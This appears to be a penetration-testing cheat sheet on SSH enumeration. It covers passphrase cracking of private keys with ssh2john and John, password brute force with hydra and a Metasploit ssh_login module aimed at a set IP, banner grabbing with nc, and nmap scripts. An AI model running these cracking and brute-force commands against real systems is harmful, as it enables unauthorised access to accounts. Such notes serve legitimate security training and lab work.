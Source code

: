 # SSH Enumeration



```
#Login
ssh uname@IP #enter password in the prompt

#id_rsa or id_ecdsa file
chmod 600 id_rsa/id_ecdsa
ssh uname@IP -i id_rsa/id_ecdsa #if it still asks for password, crack them using John

#cracking id_rsa or id_ecdsa
ssh2john id_ecdsa(or)id_rsa > hash
john --wordlist=/home/sathvik/Wordlists/rockyou.txt hash

#bruteforce
hydra -l uname -P passwords.txt <IP> ssh #'-L' for usernames list, '-l' for username and viceversa

#check for vulnerabilities associated with the version identified.
```

















auxiliary/scanner/ssh/ssh_versionI
auxiliary/scanner/ssh/ssh_login # brute force
auxiliary/scanner/ssh/ssh_enumusers # super useful!

```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.245.211.3
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```


### Get ssh banner with `nc`
`nc [IP] 22`
`nc -nv [IP] 22`


### Nmap
```
# Enumerate algorithms
nmap [IP] -p22 --script ssh2-enum-algos

# SSH Keys
nmap [IP] -p22 --script ssh-hostkey --script-args ssh_hostkey=full


nmap [IP] -p22 --script ssh-auth-methods --script-args="ssh.user=[USERNAME]"

```



